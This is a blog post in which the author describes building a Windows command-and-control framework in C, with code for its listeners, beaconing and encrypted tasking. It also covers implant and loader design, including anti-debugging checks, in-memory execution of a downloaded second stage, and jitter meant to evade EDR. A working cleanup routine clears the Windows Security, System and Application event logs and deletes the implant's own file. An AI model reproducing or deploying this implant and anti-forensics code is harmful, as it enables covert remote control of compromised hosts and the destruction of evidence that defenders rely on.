





## Introduction

Hello,

Over the past weeks I built my own C2 framework called `FrenzyC2`.

A C2 framework is one of the core tools in offensive security. After an initial access has been gained on a target system, the C2 is what allows an operator to maintain control, issue commands, and manage implants on compromised hosts. It acts as the central hub between the attacker and the target, handling everything from tasking agents to receiving their output. It's possible that you've already used one like Metasploit in CTFs. If not, don't worry.

There are several well-known C2 frameworks out there, such as Cobalt Strike, Havoc, Sliver, or Mythic, each with its own strengths and design philosophy. 
In this post, I'll walk you through how I built Frenzy, which features it currently offers, and some of the technical decisions behind it.

I decided to build everything in pure C. Why? Simply because C is the language I feel most comfortable working with. It also comes with several advantages:

- It doesn't need extra dependencies, so it's lightweight and fast.
- Since the project was primarily developed for Windows, using C gave me full control over the Windows API without having to rely on an additional framework or abstraction layer.
- While implementing everything in C is certainly more challenging than using a language like Python or Go, it also allowed me to learn a lot by building most components from scratch.

The implants and loaders are written in C and Assembly. This allows me to keep them small and efficient while avoiding additional runtime dependencies, such as those required by Go, C# or Python.

Another advantage of using C is the lack of certain runtime artifacts and metadata commonly found in higher-level languages. For example, Go and C# binaries may contain function names, type information, or build paths. C# also relies on the .NET CLR, whereas native C and Assembly binaries do not require such a runtime.
These differences can have implications for binary analysis, reverse engineering, and detection by EDRs.

Currently, the server supports HTTP and TCP listeners. In the future, I'm planning to add mTLS support and explore other types of listeners.

## Overview

My initial goal was to establish a solid foundation that I could build upon and extend over time. Rather than focusing on individual features from the beginning, I wanted to create a modular, reliable and stable base that would make it easier to introduce new functionality in the future.

Frenzy follows a classic C2 architecture with a server-side operator tool and a lightweight agent deployed on the target. The operator manages everything through a CLI, from creating listeners to tracking agents and issuing tasks. The agent runs silently on the target and periodically reaches out to the server to check for new instructions.

This communication is based on a beaconing model. Instead of maintaining a persistent connection, the agent polls the server at regular intervals. If there is a task waiting, the agent executes it and sends back the result. Otherwise the server simply responds with a NOP. This approach is less suspicious than keeping a constant TCP or HTTP connection open. All traffic between server and agent is encrypted with AES-128-CBC and every message uses length-prefix framing to prevent TCP stream issues.




At this point, Frenzy supports multi-listener management, agent tracking, remote command execution, configurable jitter, agent cleanup and a small payload database.

Here is the list of what my C2 should be able to do:

- Listeners
	- Create new listener, with name, port and type(tcp and http).
	- Rename existing listener
	- Remove existing listener
	- List listeners in a clear, organized manner

- Agents
	- Implant connects to listener
	- Rename existing agents
	- list agents in a clear, organized manner
	- interact with agents

- Payloads
	- list all payloads
	- get info about specific payloads
	- generate payloads/modifying payloads with port, ip and so on

- Implants
	- One TCP agent, one HTTP agent and one loader
	- AES-Encryption
	- Beaconing
	- Cleanup
	- Jitter
	- Command execution


## Implementation

#### Structure

```
|───frenzy_c2
│   ├───payload_build
│   │   ├───static_rsta    <-- TCP AGENT
│   │   └───wires_loader   <-- LOADER
│   ├───source
│   │   ├───agents         <-- AGENT RELATED CODE
│   │   ├───listener       <-- LISTENER RELATED CODE
│   │   ├───payloads       <-- PAYLOAD RELATED CODE
│   │   ├───utils          <-- OTHER (LIKE CRYPTO.c)
```

I tried to make the structure as simple and clear as possible.
There is one `payload_build` folder which includes the source code and binary of the payloads.
And there is a `source` folder, which contains the agent, listener,payloads and utils folder.  
Within these folders there are simply the different .c and .h files for the specific usecase.

#### Listeners

The Listeners folder contains the following files:

- listener_help_menu.c/h
- listener_http.c/h
- listener_main.c/h
- listener_remove.c/h
- listener_tcp.c/h


The listener_help_menu simply displays the available commands to the operator.

The listener_main.c/h brings together all functions and files and is called in cli_main.c/h.
The `listener_main()` function also contains the relatively simple logic for renaming and listing listeners. The remove, list and rename functions are fairly straightforward. The code for the `list` command, for example, looks as follows (if you are interested in the other code sections, the source code is publicly available on my github via the link at the bottom):

``` c
else if (strcmp(commands, "list") == 0) {
	printf("\033[34m[*] Listing all listeners:\033[0m\n\n");
	printf("  %-16s %-10s %-10s %s\n", "Name", "Port", "Status", "Type");
	printf("  %-15s %-10s %-10s %s\n", "------", "------", "--------", "-----");
	for (int i = 0; i < listener_count; i++) {
					printf("  %-16s %-10d %-10s %s\n", listeners[i]->name, listeners[i]->port,status_names[listeners[i]->status], listeners[i]->type);
	}
}
```

`listeners` is an array of structs of type `Listener`, which contains the `listen_socket` as well as metadata such as the name, port, type and current status: 

```c
typedef struct {
    char name[64];
    unsigned short port;
    char type[64];
    SOCKET listen_socket;
    HANDLE thread;
    volatile LONG status;
} Listener;
```


When creating a new listener using `lnew <name> <port> <type>` the l`istener_start()` gets called. First a regular TCP listening socket gets established. This involves the following steps: 
1. Create a TCP socket.
2. Bind the socket to server address.
3. Call `listen()` to put the socket into passive mode, allowing it to wait for incoming connection requests
4. Instead of calling `accept()` directly, we create a separate thread for handling incoming connections: ``
   ```c
   	uintptr_t thread_id = _beginthreadex(NULL, 0, accept_thread, listener, 0, NULL);

	if (thread_id == 0) {
	    closesocket(listener->listen_socket);
	    WSACleanup();
	    free(listener);
	    return NULL;
	}

	listener->thread = (HANDLE)thread_id;
   ```

We create a separate thread for each listener. Otherwise, one listener could block the entire process, preventing us from managing other listeners or performing other operations. Using separate threads also allows us to create and manage multiple listeners simultaneously.
Inside `accept_thread()`, we call `accept()` to accept incoming connections:

   ```c 
   SOCKET client_socket = accept(listener->listen_socket, NULL, NULL);
   ```

Inside `listener_tcp.c/h`, we can also find the `beacon_handler()` function, which handles the individual connections with the agents. I will go in more depth into this function in the Agents section.


#### Agents

The Agents folder contains the following files:

- agent_help_menu.c/h
- agent_interact.c/h
- agent_main.c/h


The agent_help_menu again simply displays the available commands to the operator.

The agent_main.c/h brings together all functions and files and is called in cli_main.c/h.
The `agent_main()` function also contains the relatively simple logic for renaming and listing agents. The list and rename functions are fairly straightforward. The code for the `arename` command, for example, looks as follows:

```c
else if (strcmp(cmd, "arename") == 0) {
	char *old_name = strtok_s(NULL, " ", &context);
	char *new_name = strtok_s(NULL, " ", &context);
	if (old_name == NULL || new_name == NULL) {
		printf("[*] Usage: arename <old name> <new name>");
		continue;
	}
	int found = 0;
	for (int i = 0; i < agent_count; i++) {
		if (strcmp(agents[i]->id, old_name) == 0) {
			strncpy_s(agents[i]->id, sizeof(agents[i]->id), new_name, _TRUNCATE);
			printf("[+] Agent renamed to %s\n", new_name);
			found = 1;
			break;
		}
	}
	if (found < 1) {
		printf("[-] agent does not exist or wrong usage!\n");
	} 
}
```

Similar to the listeners, the agents are stored in an array of structs. Every agent has its own client_socket, which is stored in the `AgentContext` struct which looks as follows:

```c
typedef struct {
    SOCKET client_socket; // connection is stored here
    char ip[46];
    unsigned short port;
    char hostname[64];
    char os[64];
    char id[64];
    char pending_task[256];
    int connected;
} AgentContext;
```

As you may have noticed, we assign the accepted socket connection to `client_socket` in the `accept_thread` function in `listener_tcp.c`.

This is useful because it allows us to maintain multiple agent connections simultaneously and access each connection through its corresponding `AgentContext` struct. Each accepted connection gets its own beacon_handler thread, which allows us to handle multiple agents simultaneously without blocking.

Inside the agent_interact.c/h file we have a simple for loop which checks if the agent with the agentID already exists. If yes the operator can interact with the agent. There is an input field where the operator can enter commands. The commands are then stored in the `AgentContext` struct in the `pending_task` variable. This way, each agent has its own tasks in the “queue.” This `pending_task` is then sent to the respective agent later in `listener_http.c/h` or `listener_tcp.c/h`. This "queue" mechanism is essential for the beaconing mechanism, since the agent does not maintain a constant connection with the listener but only requests tasks from time to time, these tasks are stored in the `pending_task` variable, as mentioned earlier.

Inside listener_http.c/h and listener_tcp.c/h there is a beacon handler, which sends `POLL` or `pending_task`.  We have 2 functions called `encrypted_recv` and `encrypted_send`. They simply handle all the encryption and decryption.  Inside the while loop we first recv everything from the agent. This is either an answer or POLL. If there is a new task inside `pending_task` this gets sent to the agent. If not we send NOP. 

```c
static unsigned __stdcall beacon_handler(void* arg) {
    AgentContext* client = arg;
    

    while (1) {

        int total;
        recv(client->client_socket, (char*)&total, 4, 0);

        char iv[16];
        recv(client->client_socket, iv, 16, 0);

        char encrypted[4096];
        int enc_len = total - 16;
        int received = recv(client->client_socket, encrypted, enc_len, 0);
        if (received <= 0) break;

        char buf[4096];
        int dec_len = sizeof(buf);
        aes_decrypt(encrypted, enc_len, key, iv, buf, &dec_len);
        buf[dec_len] = '\0';

        if (strcmp(buf, "EXIT") == 0) {
            client->connected = 0;
            break;
        }
        if (strcmp(buf, "POLL") != 0) {
            printf("    %s\n", buf);
        }
        
        

        if (client->pending_task[0] != '\0') {
            encrypted_send(client->client_socket, client->pending_task, strlen(client->pending_task), key);
            client->pending_task[0] = '\0';
        }


        else {
            encrypted_send(client->client_socket, "NOP", 3, key);
        }
    }
    return 0;
}
```


#### Payloads

So far I have written 3 payloads: 
- One http agent
- One tcp agent
- One stage1 loader

Keep in mind that these aren't sophisticated implants, but simply test payloads.
So when an agent is running on a system, it enters an infinite loop and continuously checks the server for new tasks. The loader, on the other hand, has no connection to the C2; it checks its environment for language, operating system, and performs a brief debugger check. If any of the required conditions are not met, the loader deletes itself and terminates its process. However, if the conditions are met, the loader downloads the actual payload from a server or, for example, GitHub, and executes it in memory. Afterward, it deletes itself and terminates its process. 


In pseudo C the loader looks like this:

```c

int main() {

	random jitter
	
	if debugger found {
		cleanup()
	}
	
	random jitter
	
	if wrong os version {
		cleanup()
	}
	
	random jitter
	
	if wrong system language {
		cleanup()
	}
	
	random jitter
	
	InitConnection()
	download stage2()
	cleanup()

}
```


The TCP Agent is able to execute commands for example `whoami`, to prepare and execute a simple cleanup with terminating its process and deleting its file. And also changing the jitter.

In pseudo C Code the agent looks like this:

```c

void encrypt_send() ...

void encrypted_recv() ...

void execute_command() ...

void cleanup() ....

int WINAPI WinMain() {

	WSAStartup
	
	socket()
	connect()
	
	while(1) {
	
		encrypted_send("POLL")
		
		if strcmp(response, "cleanup")
			cleanup()
			
		
		if strcmp(response, "jitter")
			change jitter ...
			
		else 
			execute_command()
			
		sleep(jitter)
	}

}
```

The HTTP agent looks exactly like the TCP agent, with the difference that in `encrypted_send` and `encrypted_recv`, the HTTP headers are sent along with the data and processed, respectively.


## Opsec & Security

Since every C2 framework prioritizes opsec, and since this is an essential part of it ,I’ve tried to incorporate a few features as well. I’m aware that these agents and the framework aren’t yet suitable for real-world operations. But in the future, I’ll be working more on opsec and other features that will make it more suitable. 

#### Jitter

Jitter introduces irregular intervals  between individual http or tcp requests. This results in a different traffic pattern, which makes forensic analysis and EDR detection more difficult.

In my agents the jitter looks like this:

```c
	int basis_sleep = atoi(basis_str);
	int jitter_len = atoi(jitter_str);
    int variation = (rand() % (2 * jitter_len + 1)) - jitter_len;
    sleep_ms = basis_sleep * 1000 + (basis_sleep * 1000 * variation / 100);
```

You can control this using Agent Interact. To do so, enter jitter, then the basis sleep and finally enter the percentage by which you want to decrease or increase the base sleep.
Later, you can use `Sleep` like this:  
```c
Sleep(sleep_ms)
```

#### Encryption 

Encryption is one of the most important things. Without it, every byte would be visible in plain text. This would make it incredibly easy for forensics tools and EDRs to see what's going on.

For Frenzy, I decided to use AES-128-CBC with a 16-byte Initialization Vector (IV). The problem without an IV is that the same input, for example `"NOP"`, will always produce the same ciphertext. An analyst could notice that every few seconds or minutes, the exact same ciphertext gets sent.

The IV solves this by introducing randomness into the encryption process, making sure that even if the same data is encrypted multiple times, the resulting ciphertext looks different each time.


#### Cleanup

The cleanup routine simply spawns a new CMD process, uses `ping localhost` to introduce a delay, giving the process enough time to delete the file. Once the ping command finishes, it terminates both the parent process and itself. Before deleting itself, the agent also clears the Windows Event Logs to remove traces of its activity.
The C function looks like this:

```c

void cleanup() {

    char wev_cmd[] = "cmd.exe /C wevtutil cl Security & wevtutil cl System & wevtutil cl Application";

    STARTUPINFOA si2 = { 0 };
    PROCESS_INFORMATION pi2 = { 0 };
    si2.cb = sizeof(si2);
    CreateProcessA(NULL, wev_cmd, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si2, &pi2);
    WaitForSingleObject(pi2.hProcess, 5000);
    CloseHandle(pi2.hThread);
    CloseHandle(pi2.hProcess);

    char file_path[MAX_PATH] = { 0 };
    GetModuleFileNameA(NULL, file_path, sizeof(file_path));
    char cmd[MAX_PATH + 64];

    snprintf(cmd, sizeof(cmd), "cmd.exe /C ping 127.0.0.1 -n 2 > nul & del \"%s\"", file_path);

    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    si.cb = sizeof(si);
    CreateProcessA(NULL, cmd, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    ExitProcess(0);

}
```


## Demonstration

Now I will show you a quick demo on a Windows 11 system.

The home of the C2 looks like this:




Creating a Listener:




After that lets test the tcp payload:



We can see we got a connection now we can interact with the agent:



I asked the agent if he is alive and he answered with pong, after that I tasked the agent to cleanup.


## Conclusion

That's it. I hope this article was interesting and you learned something new. I personally learned a lot about Winsock, threading and structuring bigger projects. In the future I want to implement:
- File Transfer (upload/download)
- Persistence
- Traffic-Padding
- mTLS listener
- more agents and loader

If you have any recommendations or feedback I would really appreciate it. You can contact me on 
@https://x.com/gatekeeperr0

If you liked reading this article I would appreciate if you share or tweet it. Thank you!
